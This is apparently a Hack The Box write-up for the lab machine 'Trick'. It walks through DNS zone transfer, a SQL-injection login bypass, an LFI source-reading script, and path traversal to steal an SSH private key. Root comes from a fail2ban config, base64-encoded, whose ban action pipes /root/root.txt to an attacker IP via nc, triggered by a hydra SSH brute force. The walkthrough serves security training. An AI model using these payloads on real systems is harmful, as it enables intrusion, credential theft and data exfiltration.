


<p align="right"><a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.166 trick.htb

**nmap scan**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns#using-nslookup
```bash
❯ nslookup
> SERVER 10.129.190.130
Default server: 10.129.190.130
Address: 10.129.190.130#53
> 127.0.0.1
1.0.0.127.in-addr.arpa	name = localhost.
> 10.129.190.130
130.190.129.10.in-addr.arpa	name = trick.htb
```

* Hostname: `trick.htb`

```bash
❯ dig axfr @10.129.190.130 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.129.190.130 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 815 msec
;; SERVER: 10.129.190.130#53(10.129.190.130) (TCP)
;; WHEN: Sun Jun 19 06:49:20 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

* Vhost: `preprod-payroll.trick.htb`
  * That is running **Recruitment Management System CMS**
  * It looks like they are using modified version of: https://www.sourcecodester.com/php/14473/recruitment-management-system-using-phpmysql-source-code.html (?)

* Found script in `http://preprod-payroll.trick.htb/login.php` sourcecode
  * Looks like successful login reddirects to `/index.php?page=home`
  * Found sqli auth-bypass in `login.php`: `1'+or+1=1--+-`


# Foothold

## LFI

* Authorization issue leads to access to `/index.php?page=home` without Authentication.
* LFI: `/index.php?page=home`

Read the source
```py
import requests as r
import base64
import sys
import re

host = 'http://preprod-payroll.trick.htb'
location = sys.argv[1]

rspn = r.get(f"{host}/index.php?page=php://filter/convert.base64-encode/resource={location}", allow_redirects=False)
filter_b64 = re.findall(r'<main id="view-panel" >\s+(.*?)\s+</main>', rspn.text)
source = base64.b64decode(filter_b64[0]).decode("UTF-8")
print(source)
```

Found some database creds from `db_connect.php`: `remo:TrulyImpossiblePasswordLmao123` _not useful_
```php
$conn= new mysqli('localhost','remo','TrulyImpossiblePasswordLmao123','payroll_db')or die("Could not connect to mysql".mysqli_error($con));
```

And admin creds from `users.php`: `Enemigosss:SuperGucciRainbowCake`

* get inside admin panel (`http://preprod-payroll.trick.htb/login.php`) with admin creds (`Enemigosss:SuperGucciRainbowCake`).

After an hour of digging sql and file upload and sourcecode, found nothing, than i go back enumeration to run directory/subdomain bruteforcing again with some new infomation, and found another subdomain: `preprod-marketing.trick.htb`

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" -u 'http://10.129.190.130' -ac -v

... [snip] ...

[Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 407ms]
| URL | http://10.129.190.130
    * FUZZ: preprod-marketing
```

And by guessing the web root directory name for "preprod-marketing" subdomain based on "preprod-payroll" web root directory name `payroll`, found the directory name `market` and another lfi and this time we can access system files.
```bash
❯ python trick-script.py --proxy --file '../market/index'
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
  include("/var/www/market/".str_replace("../","",$file));
}
?>
```

And found user ssh key.
```bash
curl -s -X GET $'http://preprod-marketing.trick.htb/?page=....//....//....//home/michael/.ssh/id_rsa'
```

User, from `/etc/passwd`
```bash
michael:x:1001:1001::/home/michael:/bin/bash
```


# Privesc

user can run `/etc/init.d/fail2ban` as root
```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

```bash
michael@trick:~$ ls -la /etc/fail2ban/
total 76
drwxr-xr-x   6 root root      4096 Jun 19 15:09 .
drwxr-xr-x 126 root root     12288 Jun 19 14:52 ..
drwxrwx---   2 root security  4096 Jun 19 15:09 action.d

... [snip] ...
```

and "" is in "" group
```bash
michael@trick:~$ cat /etc/group
... [snip] ...

security:x:1002:michael
```

## fail2ban exploit

Exploit: https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

* https://securitylab.github.com/research/Fail2exploit/
* https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7


* Some cron is running that deleting all config files from `/etc/fail2ban/action.d/` directory.
* Another thing is that fail2ban only stay for 10 second.

```bash
michael@trick:~$ cat /etc/fail2ban/action.d/iptables-multiport.conf | grep actionban
# Notes.:  command executed once before each actionban command
# Option:  actionban
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = /usr/bin/cat /root/root.txt | nc 10.10.14.22 4141
```

* First we are removing default `iptables-multiport.conf` file.
* then creating new `iptables-multiport.conf` file with shell command.
* Then restart fail2ban with sudo, to load newly created config file.
```bash
rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
echo -n 'IyBGYWlsMkJhbiBjb25maWd1cmF0aW9uIGZpbGUKIwojIEF1dGhvcjogQ3lyaWwgSmFxdWllcgojIE1vZGlmaWVkIGJ5IFlhcm9zbGF2IEhhbGNoZW5rbyBmb3IgbXVsdGlwb3J0IGJhbm5pbmcKIwoKW0lOQ0xVREVTXQoKYmVmb3JlID0gaXB0YWJsZXMtY29tbW9uLmNvbmYKCltEZWZpbml0aW9uXQoKIyBPcHRpb246ICBhY3Rpb25zdGFydAojIE5vdGVzLjogIGNvbW1hbmQgZXhlY3V0ZWQgb25jZSBhdCB0aGUgc3RhcnQgb2YgRmFpbDJCYW4uCiMgVmFsdWVzOiAgQ01ECiMKYWN0aW9uc3RhcnQgPSA8aXB0YWJsZXM+IC1OIGYyYi08bmFtZT4KICAgICAgICAgICAgICA8aXB0YWJsZXM+IC1BIGYyYi08bmFtZT4gLWogPHJldHVybnR5cGU+CiAgICAgICAgICAgICAgPGlwdGFibGVzPiAtSSA8Y2hhaW4+IC1wIDxwcm90b2NvbD4gLW0gbXVsdGlwb3J0IC0tZHBvcnRzIDxwb3J0PiAtaiBmMmItPG5hbWU+CgojIE9wdGlvbjogIGFjdGlvbnN0b3AKIyBOb3Rlcy46ICBjb21tYW5kIGV4ZWN1dGVkIG9uY2UgYXQgdGhlIGVuZCBvZiBGYWlsMkJhbgojIFZhbHVlczogIENNRAojCmFjdGlvbnN0b3AgPSA8aXB0YWJsZXM+IC1EIDxjaGFpbj4gLXAgPHByb3RvY29sPiAtbSBtdWx0aXBvcnQgLS1kcG9ydHMgPHBvcnQ+IC1qIGYyYi08bmFtZT4KICAgICAgICAgICAgIDxhY3Rpb25mbHVzaD4KICAgICAgICAgICAgIDxpcHRhYmxlcz4gLVggZjJiLTxuYW1lPgoKIyBPcHRpb246ICBhY3Rpb25jaGVjawojIE5vdGVzLjogIGNvbW1hbmQgZXhlY3V0ZWQgb25jZSBiZWZvcmUgZWFjaCBhY3Rpb25iYW4gY29tbWFuZAojIFZhbHVlczogIENNRAojCmFjdGlvbmNoZWNrID0gPGlwdGFibGVzPiAtbiAtTCA8Y2hhaW4+IHwgZ3JlcCAtcSAnZjJiLTxuYW1lPlsgXHRdJwoKIyBPcHRpb246ICBhY3Rpb25iYW4KIyBOb3Rlcy46ICBjb21tYW5kIGV4ZWN1dGVkIHdoZW4gYmFubmluZyBhbiBJUC4gVGFrZSBjYXJlIHRoYXQgdGhlCiMgICAgICAgICAgY29tbWFuZCBpcyBleGVjdXRlZCB3aXRoIEZhaWwyQmFuIHVzZXIgcmlnaHRzLgojIFRhZ3M6ICAgIFNlZSBqYWlsLmNvbmYoNSkgbWFuIHBhZ2UKIyBWYWx1ZXM6ICBDTUQKIwphY3Rpb25iYW4gPSAvdXNyL2Jpbi9jYXQgL3Jvb3Qvcm9vdC50eHQgfCBuYyAxMC4xMC4xNC4yMiA0MTQxCgojIE9wdGlvbjogIGFjdGlvbnVuYmFuCiMgTm90ZXMuOiAgY29tbWFuZCBleGVjdXRlZCB3aGVuIHVuYmFubmluZyBhbiBJUC4gVGFrZSBjYXJlIHRoYXQgdGhlCiMgICAgICAgICAgY29tbWFuZCBpcyBleGVjdXRlZCB3aXRoIEZhaWwyQmFuIHVzZXIgcmlnaHRzLgojIFRhZ3M6ICAgIFNlZSBqYWlsLmNvbmYoNSkgbWFuIHBhZ2UKIyBWYWx1ZXM6ICBDTUQKIwphY3Rpb251bmJhbiA9IDxpcHRhYmxlcz4gLUQgZjJiLTxuYW1lPiAtcyA8aXA+IC1qIDxibG9ja3R5cGU+CgpbSW5pdF0KCg==' | base64 -d > /etc/fail2ban/action.d/iptables-multiport.conf
sudo /etc/init.d/fail2ban restart
```

On our local machine, run hydra to bruteforce to trigger fail2ban for ssh, this will trigger that `actionban` command. 
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.129.190.130 ssh -t 64
```

and in another window start `nc` listener.

